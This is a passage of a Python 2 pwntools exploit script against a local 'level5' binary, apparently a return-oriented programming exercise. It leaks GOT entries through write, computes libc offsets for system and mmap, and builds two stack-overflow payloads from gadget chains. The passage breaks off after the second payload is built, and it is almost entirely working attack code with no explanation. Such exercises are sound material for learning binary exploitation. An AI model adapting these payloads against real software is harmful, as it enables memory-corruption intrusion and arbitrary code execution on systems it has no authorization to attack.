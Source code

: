     p = process('./level5')
    #p = remote('127.0.0.1',10001)  
    
    got_write = elf.got['write']
    print "got_write: " + hex(got_write)
    got_read = elf.got['read']
    print "got_read: " + hex(got_read)
    plt_read = elf.symbols['read']
    print "plt_read: " + hex(plt_read)
    linker_point = 0x600ff8
    print "linker_point: " + hex(linker_point)
    got_pop_rax_ret = 0x0000000000023970
    print "got_pop_rax_ret: " + hex(got_pop_rax_ret)    
    
    main = 0x400564 
    
    off_system_addr = libc.symbols['write'] - libc.symbols['system']
    print "off_system_addr: " + hex(off_system_addr)
    off_mmap_addr = libc.symbols['write'] - libc.symbols['mmap']
    print "off_mmap_addr: " + hex(off_mmap_addr)
    off_pop_rax_ret = libc.symbols['write'] - got_pop_rax_ret
    print "off_pop_rax_ret: " + hex(off_pop_rax_ret)    
    
    #rdi=  edi = r13,  rsi = r14, rdx = r15 
    #write(rdi=1, rsi=write.got, rdx=4)
    payload1 =  "\x00"*136
    payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
    payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
    payload1 += "\x00"*56
    payload1 += p64(main)   
    
    p.recvuntil("Hello, World\n")   
    
    print "\n#############sending payload1#############\n"
    p.send(payload1)
    sleep(1)    
    
    write_addr = u64(p.recv(8))
    print "write_addr: " + hex(write_addr)
    mmap_addr = write_addr - off_mmap_addr
    print "mmap_addr: " + hex(mmap_addr)
    pop_rax_ret = write_addr - off_pop_rax_ret
    print "pop_rax_ret: " + hex(pop_rax_ret)    
    
    #rdi=  edi = r13,  rsi = r14, rdx = r15 
    #write(rdi=1, rsi=linker_point, rdx=4)
    payload2 =  "\x00"*136
    payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
    payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
    payload2 += "\x00"*56
    payload2 += p64(main)   
    
    p.recvuntil("Hello, World\n")   
    